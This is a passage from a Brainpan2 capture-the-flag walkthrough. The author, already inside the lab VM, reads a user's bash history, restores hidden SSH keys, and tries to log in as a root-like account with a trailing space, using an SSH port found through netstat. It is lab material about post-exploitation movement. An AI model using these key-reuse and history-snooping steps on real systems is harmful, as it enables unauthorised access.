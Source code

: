 ```bash
cd old
ls
cd brainpan-1.8
vi brainpan-1.8.c
ssh -l "root " brainpan2
vi brainpan.7
man ./brainpan.7
ls
htop
top
ls -latr
cat .bash_history 
ls
mkdir .backup
mv .ssh .bash* .backup
cd .backup/
ls
clear
ls -latr
exit
```


It looks like he logs into ssh as root with no password, then is moving the keys he used and the history file to .backup hmmmmm. So lets undo that and try to ssh in with those:

```bash
puck@brainpan2:/home/puck$ mv .ssh .ssh-old
mv .ssh .ssh-old
puck@brainpan2:/home/puck$ cp -rp .backup/.ssh .
cp -rp .backup/.ssh .
puck@brainpan2:/home/puck$ ls -la
ls -la
total 32
drwx------ 5 puck  puck   4096 Jun  6 10:31 .
drwxr-xr-x 5 root  root   4096 Nov  4  2013 ..
drwxr-xr-x 3 puck  puck   4096 Nov  5  2013 .backup
-rw------- 1 puck  puck      0 Nov  5  2013 .bash_history
-rw-r--r-- 1 puck  puck    220 Nov  4  2013 .bash_logout
-rw-r--r-- 1 puck  puck   3392 Nov  4  2013 .bashrc
-rw-r--r-- 1 puck  puck    675 Nov  4  2013 .profile
drwx------ 2 puck  anansi 4096 Nov  4  2013 .ssh
drwx------ 2 puck  puck   4096 Nov  5  2013 .ssh-old
puck@brainpan2:/home/puck$ ssh -l "root " brainpan2
ssh -l "root " brainpan2
ssh: connect to host brainpan2 port 22: Connection refused
```
So then we realize ssh is running on a different port:
```bash
netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.1.1:2222          0.0.0.0:*               LISTEN      2302/sshd       
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      2315/brainpan.exe
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      2314/python     
tcp        0      0 127.0.0.1:9333          0.0.0.0:*               LISTEN      3936/brainpan-1.8.e
tcp        0      0 127.0.0.1:37138         127.0.0.1:9333          ESTABLISHED 4008/nc         
tcp        0      0 192.168.147.175:41923   192.168.147.161:443     ESTABLISHED 3097/python     
---snip---

$ ssh -l "root " brainpan2 -p 2222                 
Pseudo-terminal will not be allocated because stdin is not a terminal.                                
Permission denied, please try again.               
Permission denied, please try again.               
```